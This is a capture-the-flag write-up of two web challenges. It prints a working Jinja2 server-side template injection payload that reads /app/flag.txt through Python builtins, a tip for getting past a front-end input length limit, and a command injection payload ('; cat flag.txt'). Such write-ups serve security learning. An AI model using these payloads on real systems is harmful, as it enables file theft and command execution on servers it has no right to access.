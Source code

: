 # web

## Trial by Fire
> Solved by thewhiteh4t


- We have an input and a hint for SSTI `Can you read the runes? Perhaps 49 is the key.`
- On the battle result page we can see that SSTI is working


![](https://i.imgur.com/XcNrIpA.png)

- Payload :

```
    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
```

- Length of the input is restricted in the front-end, so we can either edit the length in inspect or simply use burp


![](https://i.imgur.com/aBge1Lj.png)

----------


## Whispers of the Moonbeam
> Solved by thewhiteh4t


- Hint of command injection is already given very clearly in the page
- Payload :

```
    gossip; cat flag.txt
```

![](https://i.imgur.com/TMZLUhN.png)


